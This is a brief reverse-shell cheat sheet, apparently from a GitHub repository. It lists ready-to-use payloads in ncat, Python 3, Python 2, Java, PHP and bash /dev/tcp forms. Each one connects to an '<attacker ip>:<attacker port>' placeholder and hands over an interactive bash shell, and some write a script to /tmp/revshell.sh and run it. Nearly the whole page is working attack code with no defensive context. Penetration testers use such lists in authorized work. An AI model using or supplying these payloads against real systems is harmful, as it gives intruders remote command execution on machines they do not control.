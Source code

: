 ### :open_file_folder: reverse shell

ncat 

```shell
ncat -e /bin/bash <attacker ip> <attacker port>
```

python3(file)

```Python
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attacker ip>",<attacker port>)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```

python(file)

```Python
#!/usr/bin/env python
import os
import sys
try: 
        os.system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<attacker ip>\",<attacker port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")\'") 
except: 
        print 'ERROR...' 
sys.exit(0) 
```

When using the exploit file to pass command parameters fails

python

```Python
command = "echo '/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh"
```

java

```Java
String[] cmdline = { "sh", "-c", "echo 'bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && bash /tmp/revshell.sh" }; 
Runtime.getRuntime().exec(cmdline);
```

php(file)

```Php
<?php system(\"nc -e /bin/bash <attacker ip> <attacker port>\"); ?>
```
